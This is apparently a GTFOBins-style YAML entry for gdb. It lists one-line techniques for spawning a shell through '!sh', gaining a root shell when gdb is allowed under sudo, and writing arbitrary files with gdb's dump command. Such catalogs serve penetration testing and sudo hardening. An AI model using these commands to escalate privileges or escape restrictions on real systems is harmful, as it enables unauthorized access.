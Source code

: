 ```yaml
---
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"data\"" -ex quit
---
```

